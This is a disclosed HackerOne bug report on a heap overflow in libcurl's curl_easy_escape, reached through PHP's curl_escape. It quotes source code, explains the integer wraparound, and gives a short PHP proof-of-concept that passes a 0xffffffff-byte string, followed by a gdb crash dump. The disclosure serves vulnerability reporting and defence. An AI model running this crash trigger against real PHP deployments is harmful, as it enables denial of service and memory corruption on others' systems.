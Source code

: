 # Heap overflow in curl_escape

## Report Details
- **Report ID**: 160295
- **URL**: https://hackerone.com/reports/160295
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-18T01:07:53.789Z
- **Disclosed**: 2019-11-12T09:31:33.048Z

## Reporter
- **Username**: hoangnguyen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I have founded a code block that leads to heap overflow. As you can see at :
```
PHP_FUNCTION(curl_escape)
{
        char       *str = NULL, *res = NULL;
        size_t        str_len = 0;
        zval       *zid;
        php_curl   *ch;
        *** SNIP ***
        if ((res = curl_easy_escape(ch->cp, str, str_len))) {
                RETVAL_STRING(res);
                curl_free(res);
        } else {
                RETURN_FALSE;
        }
        *** SNIP ***
}
```
I do some analysis with curl_easy_escape in libcurl and here the source code :
```
char *curl_easy_escape(CURL *handle, const char *string, int inlength)
{
        size_t alloc = (inlength?(size_t)inlength:strlen(string))+1;
        char *ns;
        char *testing_ptr = NULL;
        
        *** SNIP ***
        
        ns = malloc(alloc);
        if(!ns)
            return NULL;

        length = alloc-1;
        while(length--) {
            in = *string;
            if (Curl_isalnum(in)) {
            /* just copy this */
                ns[strindex++]=in;
        *** SNIP ***
```
Here you see that alloc is calculated by adding inlength with one. If we pass a string with length 0xfffffff in curl_escape
and the alloc add it with 1 and the result of alloc is 0. After that, the malloc a buffer with size 0 and length = 0 - 1 = -1 = 0xfffffff
this leads to heap overflow

Test script:
---------------
<?php

ini_set('memory_limit',-1);

$ch = curl_init('http://google.com');
curl_escape($ch,str_repeat("A",0xffffffff));

?>
```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffff67ce508 (<curl_easy_escape+120>:    mov    BYTE PTR [r14+r13*1],cl)
RBX: 0x0 
RCX: 0x41 ('A')
RDX: 0x14 
RSI: 0x7ffff67a2b20 --> 0x100000000 
RDI: 0x0 
RBP: 0x7ffff67ff8ec --> 0xfffcec1cfffcec1c 
RSP: 0x7fffffffa720 --> 0x148fd80 ('A' <repeats 200 times>...)
RIP: 0x7ffff67ce508 (<curl_easy_escape+120>:    mov    BYTE PTR [r14+r13*1],cl)
R8 : 0x7fffffffa5b8 --> 0x0 
R9 : 0x7fffffffa5b4 --> 0x0 
R10: 0x14773e0 --> 0x79746974 ('tity')
R11: 0x7ffff67ce490 (<curl_easy_escape>:        push   r15)
R12: 0x0 
R13: 0x38c10 
R14: 0x14773f0 ('A' <repeats 200 times>...)
R15: 0x7ffeef038c28 ('A' <repeats 200 times>...)
EFLAGS: 0x10213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff67ce4fc <curl_easy_escape+108>:       add    rax,rbp
   0x7ffff67ce4ff <curl_easy_escape+111>:       jmp    rax
   0x7ffff67ce501 <curl_easy_escape+113>:       nop    DWORD PTR [rax+0x0]
=> 0x7ffff67ce508 <curl_easy_escape+120>:       mov    BYTE PTR [r14+r13*1],cl
   0x7ffff67ce50c <curl_easy_escape+124>:       add    r13,0x1
   0x7ffff67ce510 <curl_easy_escape+128>:       mov    rax,QWORD PTR [rsp+0x10]
   0x7ffff67ce515 <curl_easy_escape+133>:       add    r15,0x1
   0x7ffff67ce519 <curl_easy_escape+137>:       sub    rax,r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffa720 --> 0x148fd80 ('A' <repeats 200 times>...)
0008| 0x7fffffffa728 --> 0x7ffeef000018 ('A' <repeats 200 times>...)
0016| 0x7fffffffa730 --> 0xffffffffffffffff 
0024| 0x7fffffffa738 --> 0x7ffeef000018 ('A' <repeats 200 times>...)
0032| 0x7fffffffa740 --> 0x148fd80 ('A' <repeats 200 times>...)
0040| 0x7fffffffa748 --> 0x0 
0048| 0x7fffffffa750 --> 0x7fffffffa7e0 --> 0x7fffffffa810 --> 0x7fffffffa840 --> 0x7fffffffa880 --> 0x7fffffffa990 --> 0x7fffffffcc90 --> 0x7fffffffe010 --> 0x7fffffffe160 --> 0xa28260 (<__libc_csu_init>:        push   r15)
0056| 0x7fffffffa758 --> 0x42cb20 (<_start>:    xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007ffff67ce508 in curl_easy_escape () from /usr/lib/x86_64-linux-gnu/libcurl.so.4
gdb-peda$ bt
#0  0x00007ffff67ce508 in curl_easy_escape () from /usr/lib/x86_64-linux-gnu/libcurl.so.4
#1  0x00000000005ff72c in zif_curl_escape (execute_data=0x7fffef614110, return_value=0x7fffef614100)
    at /home/hoangnguyen/Data/Build/audit/php-7.0.7/ext/curl/interface.c:3571
```
Bug here : https://bugs.php.net/bug.php?id=72674

## Attachments
No attachments
